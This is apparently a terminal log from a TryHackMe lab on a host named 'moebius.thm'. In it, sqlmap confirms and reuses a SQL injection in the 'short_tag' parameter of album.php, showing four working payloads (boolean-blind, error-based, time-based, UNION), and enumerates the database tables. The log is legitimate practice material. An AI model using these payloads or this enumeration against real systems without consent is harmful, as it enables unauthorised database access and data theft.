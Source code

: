 [18:51:54] [INFO] fetched data logged to text files under '/home/alvan/.local/share/sqlmap/output/moebius.thm'
[18:51:54] [WARNING] your sqlmap version is outdated

[*] ending @ 18:51:54 /2025-08-15/

                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/moebius]
└─$ sqlmap -u 'http://moebius.thm/album.php?short_tag=smart' -p short_tag -D web --tables
        ___
       __H__                                                                                                        
 ___ ___[)]_____ ___ ___  {1.8.5#stable}                                                                            
|_ -| . [,]     | .'| . |                                                                                           
|___|_  [,]_|_|_|__,|  _|                                                                                           
      |_|V...       |_|   https://sqlmap.org                                                                        

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:53:54 /2025-08-15/

[18:53:54] [INFO] resuming back-end DBMS 'mysql' 
[18:53:54] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: short_tag (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: short_tag=smart' AND 7563=7563-- IGsL

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: short_tag=smart' AND (SELECT 3761 FROM(SELECT COUNT(*),CONCAT(0x71626b6271,(SELECT (ELT(3761=3761,1))),0x717a767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- vzPc

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (BENCHMARK)
    Payload: short_tag=smart' AND 5750=BENCHMARK(5000000,MD5(0x50755a70))-- JJUJ

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: short_tag=-2214' UNION ALL SELECT CONCAT(0x71626b6271,0x756e71587362614b515a505a6565476471464b4a7268417549625548576e52634453717a54624a6c,0x717a767871)-- -
---
[18:53:56] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 8.4.4, Apache 2.4.62
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[18:53:56] [INFO] fetching tables for database: 'web'
[18:53:59] [INFO] retrieved: 'albums'
[18:54:26] [INFO] retrieved: 'images'
Database: web                                                                                                      
[2 tables]
+--------+
| albums |
| images |
+--------+
